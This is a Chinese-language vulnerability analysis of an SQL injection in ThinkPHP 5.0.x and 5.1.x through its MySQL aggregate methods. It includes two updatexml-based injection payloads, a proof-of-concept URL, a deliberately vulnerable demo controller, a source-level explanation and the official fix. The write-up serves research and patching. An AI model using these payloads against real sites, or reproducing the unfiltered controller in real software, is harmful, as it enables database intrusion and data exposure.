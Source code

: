 # 5.1.3<=ThinkPHP5<=5.1.25 sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3170](https://www.zhihuifly.com/t/topic/3170)

# 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

 **5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$options = request()->get(‘options’);

$result = db(‘users’)->max($options);

var_dump($result);

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](img/fe2ee76d62c986a9a764b54fa0acbc48.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](img/6fbca03c24d6aa353950a6e0c2b7da5d.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](img/a5bd25de04e10283cbcfe09f76969df9.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](img/1b85d402dfa6e43eb4fbcbc678b361b8.png)

**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。

![5.png](img/f9ae84bc26afd514464361ccf7e65fc1.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](img/f7adbd38409f75caa9cc80a7452c15b3.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。

![3.png](img/a5bd25de04e10283cbcfe09f76969df9.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](img/8892565b850eadb38334273b576349a5.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln